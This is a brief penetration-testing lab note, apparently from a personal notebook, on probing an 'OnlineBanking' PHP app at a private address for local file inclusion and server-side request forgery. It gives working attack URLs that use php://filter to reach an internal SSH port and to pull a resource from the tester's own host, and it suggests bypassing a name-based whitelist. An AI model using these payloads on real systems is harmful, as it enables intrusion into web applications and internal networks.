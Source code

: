 
Veryfication if we see any header or fingerprint of a service
http://172.16.1.140/OnlineBanking/index.php?p=php://filter/convert.base64-encode/resource=http://localhost:22

Verifying if we receive a connection to a local web server.

http://172.16.1.140/OnlineBanking/index.php?p=php://filter/convert.base64-encode/resource=http://172.16.1.128/test

![[Pasted image 20240328163718.png]]

If there is an internal white list by using names, we can try changing the resource to be gotten from our server:

![[Pasted image 20240328163908.png]]
![[Pasted image 20240328163858.png]]
